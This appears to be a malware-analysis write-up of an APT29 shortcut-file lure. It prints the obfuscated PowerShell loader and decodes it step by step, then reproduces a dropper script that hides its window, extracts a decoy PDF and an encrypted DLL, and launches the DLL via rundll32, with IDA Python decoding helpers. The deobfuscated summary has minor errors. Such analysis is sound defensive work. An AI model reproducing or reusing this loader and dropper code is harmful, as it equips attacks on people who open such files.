


# APT29
### ds7002.lnk file analysis


```
powershell.exe -noni -ep bypass $zk='JHB0Z3Q9MHgwMDA1ZTJiZTskdmNxPTB4MDAwNjIzYjY7JHRiPSJkczcwMDIubG5rIjtpZiAoLW5vdChUZXN0LVBhdGggJHRiKSl7JG9lPUdldC1DaGlsZEl0ZW0gLVBhdGggJEVudjp0ZW1wIC1GaWx0ZXIgJHRiIC1SZWN1cnNlO2lmICgtbm90ICRvZSkge2V4aXR9W0lPLkRpcmVjdG9yeV06OlNldEN1cnJlbnREaXJlY3RvcnkoJG9lLkRpcmVjdG9yeU5hbWUpO30kdnp2aT1OZXctT2JqZWN0IElPLkZpbGVTdHJlYW0gJHRiLCdPcGVuJywnUmVhZCcsJ1JlYWRXcml0ZSc7JG9lPU5ldy1PYmplY3QgYnl0ZVtdKCR2Y3EtJHB0Z3QpOyRyPSR2enZpLlNlZWsoJHB0Z3QsW0lPLlNlZWtPcmlnaW5dOjpCZWdpbik7JHI9JHZ6dmkuUmVhZCgkb2UsMCwkdmNxLSRwdGd0KTskb2U9W0NvbnZlcnRdOjpGcm9tQmFzZTY0Q2hhckFycmF5KCRvZSwwLCRvZS5MZW5ndGgpOyR6az1bVGV4dC5FbmNvZGluZ106OkFTQ0lJLkdldFN0cmluZygkb2UpO2lleCAkems7';
$fz='FromBase'+0x40+'String';//base64string
$rhia=[Text.Encoding]::ASCII.GetString([Convert]::$fz.Invoke($zk));
iex $rhia;

```
### base64 decode
```
$ptgt=0x0005e2be;
$vcq=0x000623b6;
$tb="ds7002.lnk";
if (-not(Test-Path $tb)){
  $oe=Get-ChildItem -Path $Env:temp -Filter $tb -Recurse;
  if (-not $oe) {
    exit
  }
  [IO.Directory]::SetCurrentDirectory($oe.DirectoryName);
}
$vzvi=New-Object IO.FileStream $tb,\'Open\',\'Read\',\'ReadWrite\';
$oe=New-Object byte[]($vcq-$ptgt);
$r=$vzvi.Seek($ptgt,[IO.SeekOrigin]::Begin);
$r=$vzvi.Read($oe,0,$vcq-$ptgt);
$oe=[Convert]::FromBase64CharArray($oe,0,$oe.Length);
$zk=[Text.Encoding]::ASCII.GetString($oe);iex $zk;

```
### Decry obfuscation PowerShell script with IDA python 
```
import base64
block = get_bytes(0x0005e2be,0x000623b6-0x0005e2be)
result = base64.b64decode(block)
print result
```

```
function lylyvve(${ntnmbtq}, ${ayxlc}) {
  ${dedapri} = ""
  ${iiyzd} = 0
  while (${iiyzd} -lt ${ntnmbtq}.Length) {
    ${knvgo} = [char] (${ntnmbtq}[${iiyzd}] -bxor ${ayxlc})
    ${dedapri} += "${knvgo}"
    ${iiyzd} = ${iiyzd} + 1
  }
  if ($PSVersionTable.PSVersion.Major -lt 3) {
    ${dedapri} = ${dedapri} -replace '"','`"'
    ${dedapri} = ${dedapri} -replace "'","``'"
  }
  return $ExecutionContext.InvokeCommand.ExpandString(${dedapri})
}

function abejxg($vuvmxt, $crjtjsm, $uuckzka, $syontem) {
  for ($dpdpjo = 0; $dpdpjo -lt 44; $dpdpjo += 53 - 0x2c - 8) {
    for ($gdizsxd = 0; $gdizsxd -lt 39; $gdizsxd += 1) {
      $vhnxtt = 53 + 50 - 5 + 36557
    }
  }
  $izrfy = -(89 - 0x32 - 14) + 17855
  $sqcxq = 17 + 30 + -(-47 + 16 + 39)
  $sqcxq *= 94 + 0x2e + 726
  try {
    $aztykto = -93 + 0x5d - 0
    while ($aztykto -lt 71) {
      for ($mzbfl = -100 - 0x18 + 124; $mzbfl -lt 11 - 0x62 + 96; $mzbfl += -42 + 43) {
        for ($glpwc = 75 - 24 - 51; $glpwc -lt -88 - 0x0 + 109; $glpwc += 1) {
          try {
            $razbfw = -(64 - 30) + (-81 + 124)
            $razbfw *= 24 + 537
          } catch [system.exception] {
            $cptdmk = -38 + 123 -band 84 - 82
            $cptdmk += 41413 -band -46 + 48 + 50419 -bxor (-80 - 0x32 + 28528) * (-59 - 47 + 30841) / (61 + 89 + 14071)
          }finally {
            $alssxa = -(78 - 12) + (-56 + 79)
            $alssxa *= 18 - 0x36 + 874
          }
        }
      }
      $aztykto++
    }
  } catch [system.exception] {
    $fpfgc = -(-34 + 72) + (-46 + 60826)
  }finally {
    $zkefs = 20 + 0x1e + 48 - (-39 + 5955)
  }
}
function wcvqrx($blthn, $wabxu, $oojjhu) {
  for ($wyemsp = 0; $wyemsp -lt $wabxu; $wyemsp++) {
    $blthn[$wyemsp] = $blthn[$wyemsp] -bxor $oojjhu
  }
}
function vurfoe($iwwma, $oufgke, $edblcez, $eelag) {
  $hluev = New-Object byte[] 8182
  $fzxkdrz = $hluev.Length
  $iwwma.Seek($oufgke, [IO.SeekOrigin]::Begin) | out-null
  while ($edblcez -gt 31 - 31) {
    if ($fzxkdrz -gt $edblcez) {
      $fzxkdrz = $edblcez
    }
    $iwwma.Read($hluev, -10 + 10, $fzxkdrz) | out-null
    wcvqrx $hluev $fzxkdrz (8 + 84)
    $eelag.Write($hluev, 90 - 90, $fzxkdrz)
    $edblcez -= $fzxkdrz
  }
}
function bygtqi($iwwma, $oufgke, $edblcez, $forfeud) {
  $forfeud = [Environment]::ExpandEnvironmentVariables($forfeud)
  $oxsdmlt = Split-Path -Parent $forfeud
  if ($oxsdmlt) {
    $blthn = Test-Path $oxsdmlt
  } else {
  $blthn = $True
  }
  if (!$blthn) {
    New-Item -ItemType directory -Path $oxsdmlt | out-null
  }
  $cbwsczt = Split-Path -Leaf $forfeud
  $xouvpwi = @(($forfeud,$((lylyvve @(((-26 + 275),(-13 + 55 + 115),(-87 + 90 + 137),(-26 + 166),(52 + 85 + 15),(-23 + 0x18 + 156),(-73 + 209),(-48 + 0x36 + 151),249,(80 + 48),248,(-85 + 8 + 268),(-49 + 0x63 + 140),(-86 - 0x3d + 318),(29 + 146),(-3 + 194),(-58 + 224),(21 + 0x31 + 98))) (-51 - 97 + 368))),$((lylyvve @(((22 + 161),(-85 + 283),(-27 + 242),223,194,(47 - 0x62 + 234),(46 - 27 + 187),(-48 + 230),241,(-52 - 99 + 391),229,225,(-2 + 79 + 164),(8 + 64 + 160),(-57 - 0x33 + 338))) (15 + 0x32 + 81)))))
  foreach($forfeud in $xouvpwi) {
    $forfeud = [Environment]::ExpandEnvironmentVariables($forfeud)
    try {
      $eelag = [IO.File]::Open($forfeud, [IO.FileMode]::OpenOrCreate, [IO.FileAccess]::Write)
    } catch [Exception] {
      continue
    }
    vurfoe $iwwma $oufgke $edblcez $eelag
    $eelag.close()
    break
  }
  return $forfeud
}
function myayxvj($lhrhdyo, $jzffhy) {
  $xrfxpr = $((lylyvve @(((92 + 87 + 35),(98 - 52 + 206),(-52 - 0x59 + 393),252,(-78 + 330),(47 + 88),(94 - 0x31 + 107),176,(23 - 0x18 + 177),(34 + 115),(-12 + 12 + 177),(1 + 0x3f + 108),(-82 - 0x48 + 333),(-16 + 190),(-13 - 0x15 + 202),(-2 + 33 + 213),(32 - 0x8 + 230),(-53 + 236),(-26 + 0x26 + 173),174,(-77 - 0x63 + 354),185,(-33 - 0xf + 224),239,(66 + 172),(92 + 32 + 118),184,(75 + 101),(-52 + 2 + 226),(-47 - 0xd + 314),(-88 + 328),252,(52 + 107),(-95 + 275),189,174,143,(100 + 85),(-41 + 59 + 150),(92 + 160),225,(-96 - 94 + 442),(7 - 0xb + 163),(47 + 133),189,174,(-38 - 14 + 195),(-45 + 51 + 179),168,242,(-91 - 0x58 + 316),178,(34 + 147),191,(100 + 79),(-35 + 219),(25 - 0x0 + 160),240,(40 - 0x0 + 212),(-22 + 165),(12 + 0x41 + 108),(-71 - 31 + 270),(-4 - 0x7 + 155),(8 + 0x25 + 144),175,(79 + 18 + 71),(-84 + 0x35 + 184),(50 + 124),174,(28 + 151),174,(-97 + 349),(-37 + 262),252,168,(87 - 89 + 176),169,(89 + 96),(-43 + 288),129,(-90 + 342),(-57 + 271),252,(-6 + 78 + 180),252,(48 + 204),(97 + 75),(33 + 136),(13 - 69 + 246),(-15 + 0x5d + 98),181,(62 + 129),252,(75 + 0x4d + 23),(20 + 0x47 + 77),(91 + 98),(94 + 74),(16 + 165),(44 + 147),(-4 + 0x1c + 228),(-59 - 47 + 291),(65 + 99),168,(-31 + 216),(98 + 0x38 + 20),(-19 + 0x57 + 110),252,(-2 + 147),181,(-53 + 0x43 + 177),(52 + 0x1 + 121),(30 + 7 + 142),175,(-46 + 79 + 146),(-65 - 94 + 345),(-39 - 0x29 + 248),(-43 + 285),(-81 + 8 + 212),181,(-95 + 273),(41 - 0x61 + 295),(16 + 0x48 + 150),(80 + 0x15 + 141),143,(37 + 152),(-72 + 258),(76 + 109),(62 + 74 + 12),(-78 + 267),178,184,176,(-26 - 0x3c + 271),(75 + 100),(71 + 171),(-61 + 52 + 152),(-33 + 22 + 200),(-6 - 65 + 257),185,(-90 - 38 + 282),(-13 + 194),(-19 - 94 + 289),(-97 + 282),(49 + 99),(58 - 0x5e + 225),(59 + 0x12 + 101),184,176,(54 + 131),(64 + 188),159,(-31 + 205),(58 - 76 + 203),189,(0 - 41 + 209),(-71 - 96 + 352),(57 + 86 + 11),(-96 + 0x9 + 268),(-9 + 0x4f + 106),(9 + 176),(20 + 0x1f + 193),(60 + 0x5c + 62),(36 - 0x4b + 291),(-54 - 0x1e + 336),252,(18 + 2 + 232),(46 - 13 + 219),252,(-60 - 10 + 322),(-59 + 27 + 284),(-31 + 206),(-80 + 0x43 + 181),174,(14 + 167),(84 + 94),(47 + 140),(-11 - 0x49 + 336),186,(-69 + 250),(33 + 143),185,(40 + 0x52 + 24),(51 + 138),(-92 + 269),(-4 - 16 + 205),(-54 + 0x62 + 196),214,(-76 + 328),252,252,(-64 - 0x3e + 378),(76 + 176),(0 - 0x47 + 323),(-93 + 345),(38 + 214),135,(42 + 103),189,(29 + 145),175,180,189,(37 + 139),(-23 + 180),175,(0 + 244),137,(52 + 0x8 + 118),(70 + 107),189,(63 + 115),(15 + 174),(-66 + 253),(39 - 97 + 243),184,(-30 - 0x3e + 228),(34 + 131),172,(-18 + 203),242,137,(-54 - 0x3 + 289),(-41 + 65 + 221),(89 + 40),252,(-6 + 87 + 62),(-87 + 64 + 188),175,168,185,(-61 - 21 + 259),(0 - 0x11 + 259),(-61 + 210),(91 + 56),(56 + 186),(-6 - 85 + 245),181,(27 + 149),(91 + 94),(-45 + 202),191,(56 + 135),(-59 + 244),(29 + 0x46 + 76),(-43 + 218),252,(3 + 183),(35 + 146),176,(5 + 180),(20 - 0x6 + 143),191,(-54 - 0x28 + 285),185,175,(-72 + 247),240,(81 - 33 + 166),252,(98 + 32 + 122),(-3 + 255),252,252,(37 + 56 + 159),(54 - 100 + 298),252,(-9 + 144),(90 + 0x4f - 24),(16 + 173),174,(-27 - 66 + 268),180,(-1 - 47 + 237),(-72 + 0x20 + 216),157,(95 + 0x56 - 6),(98 - 0x62 + 244),(-86 + 223),178,177,(16 + 98 + 75),(55 + 123),189,(-46 - 0x28 + 273),(-68 - 0x38 + 309),(-49 - 42 + 275),136,(-21 + 186),(-82 - 0x28 + 294),(5 + 180),(-54 + 1 + 295),(41 - 0 + 96),232,(-80 + 325),129,252,143,165,175,(79 + 89),(53 - 0x39 + 189),177,242,(-58 + 207),(63 + 84),(-71 + 313),154,(-47 + 228),(-53 - 55 + 284),(32 - 0x9 + 162),(-19 + 162),180,(-23 + 212),(-97 + 11 + 260),(52 + 74 + 59),(36 + 216),186,(-74 - 0x40 + 319),(33 - 0x38 + 199),(99 + 35 + 51),(38 + 0x8 + 97),(-42 + 222),189,(-77 + 0x61 + 154),(17 + 168),240,(14 + 200),(11 + 241),(55 + 197),252,(-36 + 0x49 + 215),252,(-40 - 0x5 + 297),252,252,(-40 + 87 + 102),178,(43 + 125),(33 + 1 + 106),(95 + 73),174,(89 + 64 + 99),175,(-96 + 281),(-59 + 0x8 + 242),(-2 + 5 + 166),(-2 + 176),(-52 - 0x4f + 312),(1 + 167),(67 - 5 + 103),(-30 + 187),(27 + 48 + 93),(23 - 6 + 151),(-17 - 49 + 240),(-11 + 0x48 + 120),(-7 - 0x13 + 216),(34 - 6 + 141),168,(76 + 109),(-17 + 192),240,(-36 + 250),(98 + 154),(-55 + 307),(73 - 21 + 200),252,(-50 - 88 + 390),(-51 - 96 + 399),(-14 + 266),(7 + 245),(9 + 126),145,(-13 + 202),(-52 - 0x12 + 244),(-84 - 0x3c + 319),180,189,176,(-25 + 182),(3 + 5 + 167),(82 + 162),137,178,(-67 + 244),189,(55 + 123),(56 + 53 + 80),(-85 - 55 + 327),(53 - 0x45 + 201),(63 + 121),136,165,(92 + 80),(5 + 0x30 + 132),(-60 + 38 + 264),137,(-4 - 0x30 + 284),(61 + 184),(-26 - 0x3f + 218),(68 - 0x40 + 248),(39 + 104),(44 + 121),(-58 - 69 + 302),168,(-78 - 0x50 + 343),(-39 - 0x16 + 238),(-43 + 285),(84 + 0x14 + 45),147,(85 + 157),154,(13 - 90 + 258),(-74 + 9 + 241),(-53 + 238),(45 + 0x24 + 64),(-73 + 252),184,(-38 + 0x27 + 184),(39 + 53 + 160),(63 - 94 + 222),174,(-36 + 221),(28 + 161),168,181,179,178,152,(38 - 0x3c + 203),(13 + 0x32 + 112),(-81 + 253),(47 + 132),(2 - 0x19 + 198),(93 + 88),(-23 + 191),181,(-3 - 0x33 + 233),178,(-64 + 304),(-36 + 250),(-59 + 311),(-87 + 0x20 + 307),252,(52 - 0xb + 211),(98 - 2 + 156),(35 + 72 + 145),(27 - 20 + 245),(-16 - 62 + 330),135,(54 + 91),(11 - 84 + 262),(73 - 0x21 + 134),(-76 - 0x50 + 331),(15 + 0x24 + 129),(55 + 134),(85 + 91),(51 + 106),(3 + 0x2c + 128),(2 + 242),137,(-54 + 232),(-85 + 0x32 + 212),(-53 + 242),(19 - 0x51 + 240),(72 - 54 + 171),(40 + 147),(-68 + 55 + 198),(53 + 0x4b + 56),136,(-67 - 9 + 241),172,(77 + 108),(93 + 90 + 59),(-87 - 0xb + 235),232,(-97 + 342),(-45 + 0x62 + 76),(-58 + 310),143,(-95 - 24 + 284),(-69 + 244),(-75 + 243),(46 - 0x5c + 231),(81 + 96),242,149,147,(-10 + 252),(79 + 75),(-51 + 232),(-79 - 0x48 + 327),185,(-85 + 58 + 184),(1 + 167),168,(-30 + 33 + 171),(92 + 21 + 68),(-11 + 201),169,(-90 + 258),(-86 + 271),(-73 + 248),252,186,176,(-86 - 87 + 362),(-82 + 269),(1 + 174),(-43 + 283),(97 + 3 + 114),(-25 + 277),252,(-1 - 0x16 + 275),(80 - 0x25 + 209),(-41 + 293),(-42 - 15 + 309),252,(-22 + 274),149,(65 + 0x2b + 70),(-68 + 236),(-99 - 95 + 334),(-67 + 235),(57 - 0x44 + 185),(96 + 156),(-72 + 1 + 239),(2 + 0x2c + 139),177,(52 + 120),176,(85 + 15 + 89),168,185,(-50 - 0x63 + 394),(-95 - 0x3 + 329),(33 + 181))) (13 + 62 + 145)))
  $pfyyl = Add-Type -MemberDefinition $xrfxpr -Name $((lylyvve @((157,(11 + 168),(-5 - 56 + 225),184,179,(-66 + 252),229,(-69 + 297))) (59 + 1 + 154))) -Namespace $((lylyvve @(((-68 + 100),(-69 + 99),25,(15 + 53),(89 - 20))) (-72 + 191))) -PassThru
  $pcbbel = $pfyyl::CreateFile($lhrhdyo, $jzffhy, [IO.FileShare]::ReadWrite, 97 - 97, [IO.FileMode]::OpenOrCreate, [IO.FileAttributes]::Normal, 59 - 0x45 + 10)
  $ovovpab = New-Object IO.FileStream $pcbbel,$jzffhy
  return $ovovpab
}

$jzffhy = [IO.FileAccess]::READ
$f = $((lylyvve @(((81 - 0x5e + 203),169,(48 + 189),(-21 + 255),(49 + 0x5f + 90),232,(-40 + 284),182,(92 + 88),(19 - 4 + 162))) (39 + 179)))
Write-Host $f
$gibisec = myayxvj $((lylyvve @(((81 - 0x5e + 203),169,(48 + 189),(-21 + 255),(49 + 0x5f + 90),232,(-40 + 284),182,(92 + 88),(19 - 4 + 162))) (39 + 179))) $jzffhy
Write-Host $gibisec
$soecks = $((lylyvve @(((20 + 101),102,78,(-51 + 129),(-49 + 0x45 + 87),(87 - 8),(-76 + 158),(6 + 71),80,86,(25 + 61 - 76),(73 + 5 - 78),(41 + 0x6 + 40),(10 + 16 + 55),(-12 - 50 + 133),80,(50 - 33),(-38 + 54),12,70,(10 + 0x28 + 28),78,(15 - 71 + 56),(50 - 72 + 33),(-79 + 206),(83 - 81),(-32 + 17 + 97),(-93 + 29 + 151),(92 + 57 - 85),(-100 + 44 + 134),(-46 - 63 + 184),65,2,(48 + 33),86,67,(36 - 40 + 90),75,65,(-83 + 0x18 + 61),71,90,(4 + 82),(-28 - 0x19 + 124),(-37 + 117),(79 - 3),(-63 + 65),(-37 - 0x11 + 118),77,(-51 + 0x3c + 68),(66 + 96 - 84),2,(44 + 0x31 + 20),(89 - 15),(63 + 14),(54 + 33 - 2),(-23 - 0x53 + 223),(-33 + 108),(3 + 73),(-62 + 132),(-75 - 0x4f + 231),85,(66 - 56),(63 + 12),(-100 - 0x0 + 176),(-12 + 98),2,(-69 + 143),(51 + 0x36 - 38),(-79 - 16 + 171),(-62 + 60 + 72),(-19 - 80 + 177),(69 + 2),14,2,(75 - 40 + 40),76,(37 + 49),2,(-44 - 0x24 + 161),86,(-13 - 0x4a + 154),86,(-81 + 98 + 54),11,25)) (66 - 32)))
Write-Host $soecks
add-type -name win -member $soecks -namespace native
[native.win]::ShowWindow(([System.Diagnostics.Process]::GetCurrentProcess() | Get-Process).MainWindowHandle, 0)
$oufgke = 0x48bd8
$wabxu = 0x5e2be - $oufgke
$lblij = bygtqi $gibisec $oufgke $wabxu $((lylyvve @((173,(1 + 0xd + 206),205,(5 - 0x48 + 264),(14 + 202),(95 + 78),212,(5 + 0x31 + 182),(20 - 0x1e + 261),(58 + 133),(-3 + 187),(-47 + 231),(-99 + 285),(-32 - 0x25 + 235),(-96 + 312),(75 + 129),(-18 + 93 + 131))) (20 + 116)))
Write-Host $lblij
$e = $((lylyvve @((7,(30 + 0x34 - 3),65,(84 - 5),(-38 + 112),(-16 + 0x25 + 52))) 35))
Write-Host $e
Invoke-Item $((lylyvve @((7,(30 + 0x34 - 3),65,(84 - 5),(-38 + 112),(-16 + 0x25 + 52))) 35))
$oufgke = 0x0dd8
$wabxu = 0x48bd8 - $oufgke
$yhcgpw = bygtqi $gibisec $oufgke $wabxu $((lylyvve @(((-56 + 200),249,(76 + 174),(46 + 200),(-8 + 252),(93 + 56 + 100),(76 + 91 + 77),(80 + 149),229,241,(98 + 95 + 51),(13 + 212),(-99 + 343),(50 + 94),(-44 + 277),(62 + 152),(-96 - 53 + 353),207,(-31 + 242),(-58 + 272),(-41 + 84 + 112),(62 + 147),(-50 + 0x4b + 187),(-12 + 0x21 + 172))) 181))
Write-Host $yhcgpw
$a = $((lylyvve @(((87 - 49),(87 + 57 - 102),35,(-59 + 140),(-69 + 152))) 103))
Write-Host $a
$b = $((lylyvve @(((34 + 145),180,(-46 + 221),(40 - 92 + 217),(-41 + 214),(-85 + 258),(-50 - 83 + 375),(16 + 227),239,164,(-74 + 18 + 241),(67 + 0x27 + 58))) (-64 - 1 + 258)))

$c = $((lylyvve @(((-95 + 49 + 234),(99 + 0x21 + 93),(-99 + 0x2e + 293),(-6 - 21 + 278),255,232,239,(46 + 134))) (-20 + 172)))
$d = $((lylyvve @((84,(-33 + 140),109,(-64 - 0x61 + 267),(5 + 107),(63 - 89 + 92),(-18 + 131),(-32 + 138),(54 + 49),(-1 - 0x39 + 170),109,(44 + 63),(-68 + 77 + 97),(99 + 61 - 89),(2 - 79 + 178),(-35 + 139),(-51 + 0x1e + 125))) (20 - 16)))
Write-Host $b
Write-Host $c
Write-Host $d
if ($ENV:PROCESSOR_ARCHITECTURE -eq $((lylyvve @(((87 - 49),(87 + 57 - 102),35,(-59 + 140),(-69 + 152))) 103))) {
& ($((lylyvve @(((34 + 145),180,(-46 + 221),(40 - 92 + 217),(-41 + 214),(-85 + 258),(-50 - 83 + 375),(16 + 227),239,164,(-74 + 18 + 241),(67 + 0x27 + 58))) (-64 - 1 + 258)))) 
$((lylyvve @(((-95 + 49 + 234),(99 + 0x21 + 93),(-99 + 0x2e + 293),(-6 - 21 + 278),255,232,239,(46 + 134))) (-20 + 172))) 
$((lylyvve @((84,(-33 + 140),109,(-64 - 0x61 + 267),(5 + 107),(63 - 89 + 92),(-18 + 131),(-32 + 138),(54 + 49),(-1 - 0x39 + 170),109,(44 + 63),(-68 + 77 + 97),(99 + 61 - 89),(2 - 79 + 178),(-35 + 139),(-51 + 0x1e + 125))) (20 - 16)))
}
```

### Using log to remove obfuscation 
```
$jzffhy = [IO.FileAccess]::READ
$gibisec = myayxvj $("ds7002.lnk") 
# $gibisec = [DllImport("user32.dll")] public static extern bool ShowWindow(int handle, int state);
$soecks = $("%TEMP%\ds7002.PDF")
add-type -name win -member $soecks -namespace native
[native.win]::ShowWindow(([System.Diagnostics.Process]::GetCurrentProcess() | Get-Process).MainWindowHandle, 0)
$oufgke = 0x48bd8
$wabxu = 0x5e2be - $oufgke
$lblij = bygtqi $gibisec $oufgke $wabxu $("%TEMP%\ds7002.PDF")Invoke-Item $("%LOCALAPPDATA%\cyzfc.dat")
$oufgke = 0x0dd8
$wabxu = 0x48bd8 - $oufgke
$yhcgpw = bygtqi $gibisec $oufgke $wabxu $("%LOCALAPPDATA%\cyzfc.dat")
if ($ENV:PROCESSOR_ARCHITECTURE -eq $("AMD64") {
    & ($("rundll32.exe")) $("%LOCALAPPDATA%\cyzfc.dat,") $("PointFunctionCall")
}
```
## Delete run dll code, and run PowerShell script, then get dropped files.



## cyzfc.dat
```
import struct

def __ROL__(int_value, k, bit=8):

    bit_string = '{:0%db}' % bit
    bin_value = bit_string.format(int_value)  # 8 bit binary
    bin_value = bin_value[-k:] + bin_value[:-k]
    int_value = int(bin_value, 2)
    return int_value
  
v5 = 0xC5
block = get_bytes(0x402008,0x402008+0xEF)
payload = '/Users/bao/Desktop/payload.exe'
j=0
with open(payload, 'wb') as f: 
    for i in block:
       exe_byte = ord(i)^v5
       v5 = __ROL__(v5, 1, 8)
       f.write(struct.pack("B",exe_byte))
```

